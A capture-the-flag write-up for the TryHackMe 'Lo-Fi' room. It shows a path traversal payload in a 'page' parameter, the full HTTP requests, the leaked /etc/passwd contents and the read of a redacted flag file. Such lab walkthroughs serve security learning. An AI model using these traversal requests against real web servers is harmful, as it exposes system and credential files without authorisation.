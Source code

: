 ```yaml
---
title: "Lo-Fi"
date: 2025-01-20
image: /assets/img/tryhackme/Lofi/Lofi_image.jpg
description: Writeup of the TryHackMe-CTF Lo-Fi
categories: [TryHackMe, Easy]
tags: [linux, web, file-inclusion]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Lo-Fi</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Want to hear some lo-fi beats, to relax or study to? We've got you covered!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/lofi">https://tryhackme.com/r/room/lofi</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Lo-Fi.  

## Challenge
The description gives us two hints what we need to do. 
1. Navigate to the following url http://MACHINE_IP and find the flag in the root of the filesystem.
2. Check out similar content on TryHackMe: <a href="https://tryhackme.com/r/room/filepathtraversal">LFI Path Traversal</a>

This seems to be a Path Traversal vulnerability in the Website. Start up Burpsuite and open the website in the browser.
From here we need to find parameters which we could manipulate.
After simply interacting with the website we can see the usage of the parameter `page` which loads `php` files:

![command execution page](/assets/img/tryhackme/Lofi/thm_lofi_1.jpg){: width="1200" height="195" .w-75 .normal}

Let's try inject the simple payload `../../../../../../../../../../../etc/passwd` in the request:
```http
GET /?page=../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.39.143
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
The result confirm the payload is working:
```html
      <!-- Blog Post -->
        <div class="card mb-4">
          <div class="card-body">
            root:x:0:0:root:/root:/bin/bash
            daemon:x:1:1:daemon:/usr/sbin:/bin/sh
            bin:x:2:2:bin:/bin:/bin/sh
            sys:x:3:3:sys:/dev:/bin/sh
            sync:x:4:65534:sync:/bin:/bin/sync
            games:x:5:60:games:/usr/games:/bin/sh
            man:x:6:12:man:/var/cache/man:/bin/sh
            lp:x:7:7:lp:/var/spool/lpd:/bin/sh
            mail:x:8:8:mail:/var/mail:/bin/sh
            news:x:9:9:news:/var/spool/news:/bin/sh
            uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
            proxy:x:13:13:proxy:/bin:/bin/sh
            www-data:x:33:33:www-data:/var/www:/bin/sh
            backup:x:34:34:backup:/var/backups:/bin/sh
            list:x:38:38:Mailing List Manager:/var/list:/bin/sh
            irc:x:39:39:ircd:/var/run/ircd:/bin/sh
            gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
            nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
            libuuid:x:100:101::/var/lib/libuuid:/bin/sh
          </div>
        </div>
```
From here we can try to search the flag:
```http
GET /?page=../../../../../../../../../../../flag.txt HTTP/1.1
Host: 10.10.39.143
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
found the flag:
```html
      <!-- Blog Post -->
        <div class="card mb-4">
          <div class="card-body">
            flag{*********** removed ***********}
          </div>
        </div>
```
solved! :)
